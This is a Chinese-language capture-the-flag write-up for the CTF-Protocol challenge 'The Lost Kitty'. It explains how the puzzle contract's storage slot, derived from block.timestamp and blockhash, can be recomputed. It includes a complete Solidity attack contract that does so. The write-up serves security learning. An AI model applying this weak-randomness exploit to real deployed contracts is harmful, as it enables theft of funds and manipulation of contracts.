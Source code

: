 # 前言

这次是尝试<a href="https://www.ctfprotocol.com/">CTF-PROTOCOL</a>的题目，望与诸君共勉。

# 1. The Lost Kitty

题目分析：

`HiddenKittyCat`合约中，核心部分为：

```solidity
    constructor() {
        _owner = msg.sender;
        bytes32 slot = keccak256(abi.encodePacked(block.timestamp, blockhash(block.number - 69)));

        assembly {
            sstore(slot, "KittyCat!")
        }
    }
```

可以知道kitty存储的位置是由`keccak256(abi.encodePacked(block.timestamp, blockhash(block.number - 69)));`决定的。而我们则是与`House`合约交互，每次调用一个`isKittyCatHere`，生成`Kitty`并查找。

这个因为完全取决于`block.timestamp,block.number`，类似于`Ethernaut`里的`flipflopcoin`。

部署后，`House`合约为`0xD50b65d0c843E70ab06666fEA69EC87Aa34581fB`

攻击合约：

```solidity
pragma solidity  ^0.8.0;

interface IHouse{
    function isKittyCatHere(bytes32 _slot) external;
}

contract KittyHacker {

    constructor() {

    }

    function hack(address house) public {
        bytes32 slot = 
            keccak256(
                abi.encodePacked(
                    block.timestamp, 
                    blockhash(block.number - 69)
                    )
            );
        IHouse(house).isKittyCatHere(slot);
    }

}
```

